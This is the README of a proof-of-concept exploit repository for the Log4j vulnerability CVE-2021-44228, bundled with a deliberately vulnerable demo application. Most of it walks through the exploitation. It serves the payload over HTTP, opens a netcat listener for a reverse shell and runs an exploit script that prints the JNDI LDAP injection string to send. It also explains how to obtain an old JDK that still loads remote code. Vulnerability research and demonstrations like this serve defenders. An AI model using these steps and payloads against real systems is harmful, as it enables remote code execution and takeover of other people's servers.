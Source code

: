 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.


A video showing the exploitation process
----------------------------------------
https://user-images.githubusercontent.com/46561460/145657039-5f844e8c-e90c-4dd1-9f32-02b27068c6a2.mp4


Minecraft PoC:

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4

<br>

Proof-of-concept (POC)
----------------------



As a POC we have created a python file that automates the process.

* Start an http server.<br>
**Note:** This must be run in the same directory as the rest of the repository.
```py
sudo python3 -m http.server 80
```
* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
python3 poc.py
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)


[+] Enter IP for LDAPRefServer & Shell: localhost
[+] Enter listener port for LDAPRefServer: 80
[+] Set listener port for shell: 9001
[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

<br>


Our vulnerable application
--------------------------

Running the application currently is easiest done in the payed version of intelj, but we plan on adding a Dockerfile in the future.

If you would like to further develop the project you can use intelj IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting an old enough version of java.
--------------------------------------

The exploit only works on JDK versions up to `6u211`, `7u201`, `8u191`, and `11.0.1` as in later versions `com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` meaning JNDI cannot load remote code using LDAP. (credit [LunaSec](https://www.lunasec.io/docs/blog/log4j-zero-day/) and [cnblogs/yyhuni](https://www.cnblogs.com/yyhuni/p/15088134.html))

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```
